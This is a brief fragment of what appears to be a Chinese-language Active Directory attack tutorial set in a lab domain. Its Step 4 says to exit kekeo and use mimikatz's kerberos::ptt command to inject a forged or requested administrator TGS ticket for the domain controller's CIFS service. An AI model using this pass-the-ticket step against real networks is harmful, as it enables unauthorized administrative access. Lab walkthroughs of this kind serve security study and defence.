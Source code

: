 [![](assets/1705982146-abf448b77d1e675944de6f0ff75f7af4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223127-98260f62-b7a0-1.png)  
Step 4:从 kekeo 中使用 exit 命令退出，然后使用 mimikatz 将生成的 TGS 文件导入到 Kerberos 凭据列表中

```plain
kerberos::ptt TGS_administrator@hacke.testlab@HACKE.TESTLAB_cifs~dc.hacke.testlab@HACKE.TESTLAB.kirbi
```
